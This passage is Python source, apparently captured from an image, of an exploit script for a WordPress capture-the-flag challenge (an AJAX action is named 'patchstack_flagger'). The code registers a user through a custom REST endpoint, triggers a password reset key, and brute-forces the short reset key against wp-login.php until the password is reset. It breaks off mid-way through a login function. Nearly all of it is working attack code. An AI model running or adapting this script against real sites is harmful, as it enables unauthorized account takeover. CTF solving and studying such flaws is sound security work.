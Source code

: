 ```python
        self.password = ''.join(random.choice(ascii_lowercase) for i in range(10)) # generate 10 characters random password
        self.userId = int()
        self.nonce = str()
        self.CREATE_USER_REST_API_ENDPOINT = '/wp-json/user/v1/create'
        self.AJAX_ENDPOINT = '/wp-admin/admin-ajax.php'
        self.AJAX_ACTION_RESET_KEY = '?action=reset_key'
        self.AJAX_ACTION_GET_LATEST_POSTS = '?action=get_latest_posts'
        self.AJAX_ACTION_PATCHSTACK_FLAGGER = '?action=patchstack_flagger'
        self.PARAMETER_RESET_PASSWORD_ACTION = '?action=rp'
        self.LOGIN_PAGE_ENDPOINT = '/wp-login.php'
        self.LOGIN_PAGE_ENDPOINT_RESET_PASSWORD = f'{self.LOGIN_PAGE_ENDPOINT}{self.PARAMETER_RESET_PASSWORD_ACTION}'
        self.CHARACTER_SET = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'

    def createNewUser(self):
        print('[*] Creating a new user...')
        bodyData = {
            'username': self.username,
            'email': self.email
        }

        response = self.session.post(f'{self.baseUrl}{self.CREATE_USER_REST_API_ENDPOINT}', 
                          json=bodyData)
        self.userId = response.json()['user_id']
        print(f'[+] Created a new user. Username: {self.username}, user ID: {self.userId}')

    def generateActivationKey(self):
        print(f'[*] Generating a password reset activation key for user "{self.username}"...')
        bodyData = { 'user_id': str(self.userId) }

        self.session.post(f'{self.baseUrl}{self.AJAX_ENDPOINT}{self.AJAX_ACTION_RESET_KEY}', 
                          data=bodyData)
        print(f'[+] Generated a password reset activation key for user "{self.username}"')

    def resetPassword(self):
        print(f'[*] Resetting password for user "{self.username}"...')
        for key in self.CHARACTER_SET:
            print(f'[*] Trying key "{key}"...')
            getParameters = f'&login={self.username}&key={key}'
            self.session.get(f'{self.baseUrl}{self.LOGIN_PAGE_ENDPOINT_RESET_PASSWORD}{getParameters}')
            
            bodyData = {
                'pass1': self.password,
                'pass2': self.password,
                'rp_key': key
            }
            response = self.session.post(f'{self.baseUrl}{self.LOGIN_PAGE_ENDPOINT_RESET_PASSWORD}',
                              data=bodyData)
            isCorrectKey = True if 'Your password reset link appears to be invalid.' not in response.text else False
            if not isCorrectKey:
                continue

            print(f'[+] Found the correct password reset activation key "{key}"!')
            print(f'[+] User {self.username}\'s password has been reset to "{self.password}"')
            break

    def login(self):
        print(f'[*] Logging in as user "{self.username}"...')
        bodyData = {
```